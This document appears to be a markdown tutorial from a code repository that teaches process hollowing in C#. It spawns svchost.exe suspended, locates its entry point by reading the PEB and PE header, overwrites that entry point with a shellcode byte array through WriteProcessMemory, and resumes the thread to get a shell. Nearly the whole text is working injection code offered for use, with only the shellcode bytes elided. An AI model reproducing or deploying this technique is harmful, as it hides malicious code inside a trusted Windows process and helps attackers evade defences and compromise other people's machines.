

## Begin
The very first step is to create a suspended process. We'll be using the Win32 _CreateProcessW_ API.
We'll first import the API, as follows:
```C#
[DllImport("kernel32.dll", SetLastError = true, CharSet = CharSet.Ansi)]
static extern bool CreateProcess(string lpApplicationName, string lpCommandLine, 
    IntPtr lpProcessAttributes, IntPtr lpThreadAttributes, bool bInheritHandles, 
        uint dwCreationFlags, IntPtr lpEnvironment, string lpCurrentDirectory, 
            [In] ref STARTUPINFO lpStartupInfo, out PROCESS_INFORMATION lpProcessInformation);
```

The API takes 10 parameters:
1. lpApplicationName - Name of application(null)
2. lpCommandLine - Full command line to be executed(svchost.exe)
3. lpProcessAttributes - Specify security descriptor(null for default)
4. lpThreadAttributes - Part of 3 (null for default) 
5. bInheritHandles - Handles of current process(set to false)
6. dwCreationFlags - indicates intention to launch the new process in a suspended state(set to 0x04 - CREATE_SUSPEND)
7. lpEnvironment - Environment variable settings to be used(null for default)
8. lpCurrentDirectory - Current directory for the new application(null for default)
9. lpStartupInfo - Values related to how window of new process be configured
10. lpProcessInformation - identification information about the new process {like PID}

We need to add the structure for the last 2 arguments from P/Invoke as follows:
- For lpStartupInfo:
```C#
[StructLayout(LayoutKind.Sequential, CharSet = CharSet.Ansi)]
struct STARTUPINFO
{
    public Int32 cb;
    public IntPtr lpReserved;
    public IntPtr lpDesktop;
    public IntPtr lpTitle;
    public Int32 dwX;
    public Int32 dwY;
    public Int32 dwXSize;
    public Int32 dwYSize;
    public Int32 dwXCountChars;
    public Int32 dwYCountChars;
    public Int32 dwFillAttribute;
    public Int32 dwFlags;
    public Int16 wShowWindow;
    public Int16 cbReserved2;
    public IntPtr lpReserved2;
    public IntPtr hStdInput;
    public IntPtr hStdOutput;
    public IntPtr hStdError;
}
```

- For lpProcessInformation:
```C#
[StructLayout(LayoutKind.Sequential)]
internal struct PROCESS_INFORMATION
{
    public IntPtr hProcess;
    public IntPtr hThread;
    public int dwProcessId;
    public int dwThreadId;
}
```

We can invoke the call by first instantiating a _STARTUPINFO_ and a _PROCESS_INFORMATION_ object and then supply them to _CreateProcessW_.
```C#
STARTUPINFO si = new STARTUPINFO();
PROCESS_INFORMATION pi = new PROCESS_INFORMATION();

bool res = CreateProcess(null, "C:\\Windows\\System32\\svchost.exe", IntPtr.Zero, 
    IntPtr.Zero, false, 0x4, IntPtr.Zero, null, ref si, out pi);
```

Now we import _ZwQueryInformationProcess_ using P/Invoke:
```c#
[DllImport("ntdll.dll", CallingConvention = CallingConvention.StdCall)]
private static extern int ZwQueryInformationProcess(IntPtr hProcess, 
    int procInformationClass, ref PROCESS_BASIC_INFORMATION procInformation, 
        uint ProcInfoLen, ref uint retlen);
```

The API takes 5 parameters:
1. hProcess - process handle that we can obtain from the _PROCESS_INFORMATION_ structure
2. procInformationClass - Actions to be performed by the API(set to "0" which means _ProcessBasicInformation_)
3. procInformation - must be a _PROCESS_BASIC_INFORMATION_ structure that is populated by the API
4. ProcInfoLen - indicate the size of the input structure
5. retlen - a variable to hold the size of the fetched data

We will also need to create a structure for _ProcessInformation_ using P/Invoke as follows:
```C#
[StructLayout(LayoutKind.Sequential)]
internal struct PROCESS_BASIC_INFORMATION
{
    public IntPtr Reserved1;
    public IntPtr PebAddress;
    public IntPtr Reserved2;
    public IntPtr Reserved3;
    public IntPtr UniquePid;
    public IntPtr MoreReserved;
}
```

We can now call _ZwQueryInformationProcess_ and fetch the address of the PEB from the _PROCESS_BASIC_INFORMATION_ structure:
```C#
PROCESS_BASIC_INFORMATION bi = new PROCESS_BASIC_INFORMATION();
uint tmp = 0;
IntPtr hProcess = pi.hProcess;
ZwQueryInformationProcess(hProcess, 0, ref bi, (uint)(IntPtr.Size * 6), ref tmp);

IntPtr ptrToImageBase = (IntPtr)((Int64)bi.PebAddress + 0x10);
```

NOTE: The _ptrToImageBase_ variable now contains a pointer to the image base of svchost.exe in the suspended process.

We will now import _ReadProcessMemory_ API from P/Invoke as follows:
```C#
[DllImport("kernel32.dll", SetLastError = true)]
static extern bool ReadProcessMemory(IntPtr hProcess, IntPtr lpBaseAddress, 
    [Out] byte[] lpBuffer, int dwSize, out IntPtr lpNumberOfBytesRead);
```

The Function takes 5 parameters:
1. hProcess- process handle to read from
2. lpBaseAddress - the address to read from
3. lpBuffer - a buffer to copy the content into
4. nSize - the number of bytes to read
5. lpNumberOfBytesRead - a variable to contain the number of bytes read

 we can call _ReadProcessMemory_ by specifying an 8-byte buffer that is then converted to a 64bit integer through the [_BitConverter.ToInt64_](https://docs.microsoft.com/en-us/dotnet/api/system.bitconverter.toint64?view=netframework-4.8) method and then casted to a pointer using _(IntPtr)_ as follows:
```C#
byte[] addrBuf = new byte[IntPtr.Size];
IntPtr nRead = IntPtr.Zero;
ReadProcessMemory(hProcess, ptrToImageBase, addrBuf, addrBuf.Length, out nRead);

IntPtr svchostBase = (IntPtr)(BitConverter.ToInt64(addrBuf, 0));
```

The following step is to parse the PE header to locate the EntryPoint.
For this, we'll use _ReadProcessMemory_ again with a buffer size of 0x200 bytes as follows:
```C#
byte[] data = new byte[0x200];
ReadProcessMemory(hProcess, svchostBase, data, data.Length, out nRead);
```

Now is the time to implement our theory to find the code entrypoint.
We convert four bytes at offset 0x3C (_e_lfanew_ field) to an unsigned integer.
Next, we convert the four bytes at offset e_lfanew plus 0x28 into an unsigned integer.
We also, add the RVA to the image base to obtain the full memory address of the entry point.
We do this with the following code:
```C#
uint e_lfanew_offset = BitConverter.ToUInt32(data, 0x3C);

uint opthdr = e_lfanew_offset + 0x28;

uint entrypoint_rva = BitConverter.ToUInt32(data, (int)opthdr);

IntPtr addressOfEntryPoint = (IntPtr)(entrypoint_rva + (UInt64)svchostBase);
```

As we now have the EntryPoint, we can generate our shellcode and use _WriteProcessMemory_ to overwrite the existing code.
We Invoke the function and call it as follows:
```C#
[DllImport("kernel32.dll")]
        static extern bool WriteProcessMemory(IntPtr hProcess, IntPtr lpBaseAddress, byte[] lpBuffer, Int32 nSize, out IntPtr lpNumberOfBytesWritten);
```
```C#
byte[] buf = new byte[641] {
0xfc,0x48,....,0xff,0xd5 };

WriteProcessMemory(hProcess, addressOfEntryPoint, buf, buf.Length, out nRead);
```

We will now finally start the execution of our shellcode.
We can do this with the _ResumeThread_ Win32 API, as we already have an execution thread.
The API only takes one argument, i.e. the handle of the thread to resume.
We import and call the function as follows:
```C#
[DllImport("kernel32.dll", SetLastError = true)]
private static extern uint ResumeThread(IntPtr hThread);
```
```C#
ResumeThread(pi.hThread);
```

Executing the compiled code gives us a shell in the svchost.exe process.




